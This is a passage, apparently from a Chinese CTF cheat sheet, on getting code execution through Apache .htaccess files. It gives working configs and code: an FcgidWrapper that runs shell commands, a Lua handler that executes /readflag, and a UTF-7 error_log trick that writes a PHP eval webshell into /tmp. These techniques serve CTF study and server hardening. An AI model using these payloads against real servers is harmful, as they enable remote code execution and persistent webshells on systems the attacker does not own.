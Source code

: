 ```php
Options +ExecCGI
AddHandler fcgid-script .kk
FcgidWrapper "/bin/ls /" .kk
```

再写一个y4.kk 内容随意
就会执行上面内容

## lua执行

来自feng师傅补充，2020年西湖论剑 newupload，当然肯定还有一堆各种各样脚本语言了，

    AddHandler lua-script .lua1

随便写一个lua文件

```php
require "string"

function handle(r)
    r.content_type = "text/plain"
    local t = io.popen('/readflag')
    local a = t:read("*all")
    r:puts(a)

    if r.method == 'GET' then
        for k, v in pairs( r:parseargs() ) do
            r:puts( string.format("%s: %s\n", k, v) )
        end
    else
        r:puts("Unsupported HTTP method " .. r.method)
    end
end

```

## 利用报错信息写马

首先写入.htaccess error_log相关的配置

```php
php_value include_path "/tmp/xx/+ADw?php die(eval($_GET[1]))+ADs +AF8AXw-halt+AF8-compiler()+ADs"
php_value error_reporting 32767
php_value error_log /tmp/fl3g.php
```

上面那些神奇字符是utf7编码，可以用下面的方式得到

```php
<?php
$filename = "php://filter/write=convert.iconv.utf-8.utf-7/resource=y4.txt"; //utf-16le编码写入文件

file_put_contents($filename, "<?php phpinfo();?>");
```
